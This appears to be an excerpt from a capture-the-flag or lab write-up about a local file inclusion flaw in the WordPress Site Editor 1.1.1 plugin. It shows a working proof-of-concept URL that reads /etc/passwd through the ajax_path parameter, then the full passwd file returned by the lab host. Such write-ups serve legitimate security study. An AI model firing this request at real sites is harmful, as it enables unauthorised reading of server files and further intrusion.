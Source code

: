 ## WordPress Plugin Site Editor 1.1.1 - Local File Inclusion

**Proof of Concept**
```sh
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

**Our Path**
```sh
http://hard/blog/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

#### In Action

![image]( /assets/img/diophante/4.PNG)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
sabine:x:1000:1000:sabine,,,:/home/sabine:/bin/rbash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
```